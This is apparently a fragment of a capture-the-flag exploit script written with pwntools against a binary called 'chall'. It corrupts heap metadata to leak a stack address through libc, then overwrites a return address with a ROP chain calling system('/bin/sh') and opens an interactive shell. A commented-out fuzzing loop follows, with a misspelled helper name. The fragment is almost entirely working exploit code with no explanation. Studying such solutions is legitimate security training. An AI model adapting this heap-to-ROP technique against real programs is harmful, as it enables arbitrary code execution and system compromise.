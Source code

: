 ```python

payload=b"1"*0x10+b"\x00"*8+p64(0x61)+p64(0)+p64(heap+0x750)+p64(0)+p64(0)+p64(heap+0x300)+p64(1)+p64(0x31)+p64(0) +p64(libc+0x20ad58)+p64(0x100)
edit(str(1),payload)

show(str(1))
p.recvuntil(b"TODO: ")
stack=u64(p.recvuntil(b"\n",drop=True).ljust(8,b"\x00"))
print("stack leak "+hex(stack))

payload=b"1"*0x10+b"\x00"*8+p64(0x61)+p64(0)+p64(heap+0x450)+p64(heap+0x750)+p64(heap+0x3d0)+p64(heap+0x380)+p64(1)+p64(0x32)+p64(0) +p64(stack-0x148)+p64(0x100)
edit(str(2),payload)

pause()
bin_sh=libc+0x1cb42f
sys=libc+0x58740
ret=libc+0x000000000002882f
pop_rdi=libc+0x000000000010f75b
rop=p64(0)+p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(sys)

edit(str(2),rop)

p.interactive()

# pause()

# index=0
# file=open('fuzz.txt', 'w') 
# p=process("./chall")
# gdb.attach(p)
# # pause()
# for i in range(0x1000):
#     match randinit(2):
#         case 1:
#             length=randinit(0x1000)
#             title=str(index)
#             new(title,str(length))
#             file.write("insert size"+str(1)+"\n")
#             file.flush()
#         case 2:
#             index=randinit(0x100)
#             remove(str(index))
#             file.write("remove title "+str(index)+"\n")
#             file.flush()
#         case 3:
#             len=random.randint(0x1000, 0x1100)
#             payload=len*b"a"
#             edit(payload)
#             file.write("edit \n")
#             file.flush()

```